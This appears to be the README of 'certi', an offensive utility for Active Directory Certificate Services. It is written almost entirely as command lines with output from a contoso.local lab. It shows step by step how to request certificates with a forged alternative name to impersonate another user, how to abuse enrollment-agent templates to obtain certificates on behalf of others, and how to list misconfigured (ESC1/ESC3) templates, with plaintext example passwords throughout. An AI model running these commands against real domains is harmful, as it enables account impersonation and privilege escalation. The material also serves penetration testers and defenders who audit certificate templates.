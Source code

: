 # certi

Utility to play with ADCS, allows to request tickets and collect information about related objects. Basically, it's the impacket copy of [Certify](https://github.com/GhostPack/Certify). Thanks to [@harmj0y](https://twitter.com/harmj0y) and [@tifkin_](https://twitter.com/tifkin_) for [its great work with ADCS](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf).

## Request a certificate

To request a certificate you can use the req command:
```
$ getTGT.py 'contoso.local/Anakin:Vader1234!'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in Anakin.ccache
$ export KRB5CCNAME=Anakin.ccache
$ certi.py req 'contoso.local/Anakin@dc01.contoso.local' contoso-DC01-CA -k -n
[*] Service: contoso-DC01-CA
[*] Template: User
[*] Username: Anakin

[*] Response: 0x3 Issued  0x80094004, The Enrollee (CN=Anakin,CN=Users,DC=contoso,DC=local) has no E-Mail name registered in the Active Directory.  The E-Mail name will not be included in the certificate.

[*] Cert subject: CN=Anakin,CN=Users,DC=contoso,DC=local
[*] Cert issuer: CN=contoso-DC01-CA,DC=contoso,DC=local
[*] Cert Serial: 75000000062BD9D6E3F1B15CC3000000000006
[*] Cert Extended Key Usage: Encrypting File System, Secure Email, Client Authentication

[*] Saving certificate in Anakin.pfx (password: admin)
```

Depending on the enrollment service, you may need to use NTLM or Kerberos authentication to get access to it, so be sure to check both. Following is the error triggered when NTLM is not allowed and you should use Kerberos:
```
(certi) certi$ certi.py req 'contoso.local/Anakin:Vader1234!@dc01.contoso.local' contoso-DC01-CA
Error: WCCE SessionError: code: 0x80094011 - CERTSRV_E_ENROLL_DENIED - The permissions on this CA do not allow the current user to enroll for certificates.
Help: Try using Kerberos authentication with -k -n params
```

### Request with an alternative name


You can use the `--alt-name` parameter to give an alternative subject and request a certificate that can be used to impersonate the target user if some template allows you to do that:
```
$ certi.py req 'contoso.local/Anakin@dc01.contoso.local' contoso-DC01-CA -k -n --alt-name han --template UserSAN
[*] Service: contoso-DC01-CA
[*] Template: UserSAN
[*] Username: Anakin
[*] Alternative Name: han

[*] Response: 0x3 Issued

[*] Cert subject: CN=Anakin
[*] Cert issuer: CN=contoso-DC01-CA,DC=contoso,DC=local
[*] Cert Serial: 750000000A858CC4B4C9301ED600000000000A
[*] Cert Extended Key Usage: Encrypting File System, Secure Email, Client Authentication
[+] Cert Altname: han@contoso.local

[*] Saving certificate in han@contoso.local.pfx (password: admin)

```

You can get the templates vulnerable to this by using the `--vuln` and `--enable` params of the list command (be sure ):

```
$ certi.py list 'contoso.local/Anakin' -k -n --dc-ip 192.168.100.2 --vuln --enable | grep ESC1 -B 3
Name: SubCA
Schema Version: 1
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC1 - SAN Impersonation, ESC2 - Any Purpose, ESC3.2 - Use Agent Certificate
--
Name: UserSAN
Schema Version: 2
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC1 - SAN Impersonation
```


### Request as an enrollment agent


In case the available templates allows you to do that, you can request a certificate for an enrollment agent and then use it to request a certificate for another user:

```
$ certi.py req 'contoso.local/Han@dc01.contoso.local' contoso-DC01-CA -k -n --template EnrollAgent
[*] Service: contoso-DC01-CA
[*] Template: EnrollAgent
[*] Username: Han

[*] Response: 0x3 Issued

[*] Cert subject: CN=Han
[*] Cert issuer: CN=contoso-DC01-CA,DC=contoso,DC=local
[*] Cert Serial: 75000000256F1BB99993785823000000000025
[*] Cert Extended Key Usage: Certificate Request Agent

[*] Saving certificate in Han.pfx (password: admin)
$ certi.py req 'contoso.local/Han@dc01.contoso.local' contoso-DC01-CA -k -n --on-behalf anakin --enroll-cert Han.pfx --enroll-cert-pw admin --template EnrollWithAgent
[*] Service: contoso-DC01-CA
[*] Template: EnrollWithAgent
[*] Username: Han
[*] On behalf of: anakin

[*] Response: 0x3 Issued

[*] Cert subject: CN=anakin
[*] Cert issuer: CN=contoso-DC01-CA,DC=contoso,DC=local
[*] Cert Serial: 750000002AB527D8E1E64930DC00000000002A
[*] Cert Extended Key Usage: Any Purpose, Certificate Request Agent, Encrypting File System, Secure Email, Client Authentication

[*] Saving certificate in anakin.pfx (password: admin)
```


You can check for templates vulnerable to these misconfigurations with the `list` command (we are that permissions may restrict you from request a certificate for a given template):
```
$ certi.py list 'contoso.local/Han' -k -n --dc-ip 192.168.100.2 --vuln --enable | grep ESC3 -B 3
Name: User
Schema Version: 1
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC3.2 - Use Agent Certificate
--
Name: Administrator
Schema Version: 1
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC3.2 - Use Agent Certificate
--
Name: Machine
Schema Version: 1
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC3.2 - Use Agent Certificate
--
Name: DomainController
Schema Version: 1
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC3.2 - Use Agent Certificate
--
Name: SubCA
Schema Version: 1
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC1 - SAN Impersonation, ESC2 - Any Purpose, ESC3.2 - Use Agent Certificate
--
Name: EnrollAgent
Schema Version: 2
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC3.2 - Use Agent Certificate
--
Name: EnrollwithAgent
Schema Version: 2
Enroll Services: contoso-DC01-CA
Vulnerabilities: ESC3.2 - Use Agent Certificate

```


## List services


```
$ certi.py list 'contoso.local/Han' -k -n --class service
[*] Enrollment Services

Name: contoso-DC01-CA
DNS name: dc01.contoso.local
Templates: EnrollwithAgent, EnrollAgent, UserSAN, DirectoryEmailReplication, DomainControllerAuthentication, KerberosAuthentication, EFSRecovery, EFS, DomainController, WebServer, Machine, User, SubCA, Administrator
Certificate:
  Cert Subject: CN=contoso-DC01-CA,DC=contoso,DC=local
  Cert Serial: 23D21EB948AC688545EC15FEB03B0C33
  Cert Start: 2021-08-01 12:49:46
  Cert End: 2026-08-01 12:59:46
  Cert Issuer: CN=contoso-DC01-CA,DC=contoso,DC=local

```


## List CAs

```
$ certi.py list 'contoso.local/Han' -k -n --dc-ip 192.168.100.2 --class ca
[*] Root CAs

Cert Subject: CN=contoso-DC01-CA,DC=contoso,DC=local
Cert Serial: 23D21EB948AC688545EC15FEB03B0C33
Cert Start: 2021-08-01 12:49:46
Cert End: 2026-08-01 12:59:46
Cert Issuer: CN=contoso-DC01-CA,DC=contoso,DC=local

[*] Authority Information Access

Cert Subject: CN=contoso-DC01-CA,DC=contoso,DC=local
Cert Serial: 23D21EB948AC688545EC15FEB03B0C33
Cert Start: 2021-08-01 12:49:46
Cert End: 2026-08-01 12:59:46
Cert Issuer: CN=contoso-DC01-CA,DC=contoso,DC=local

```
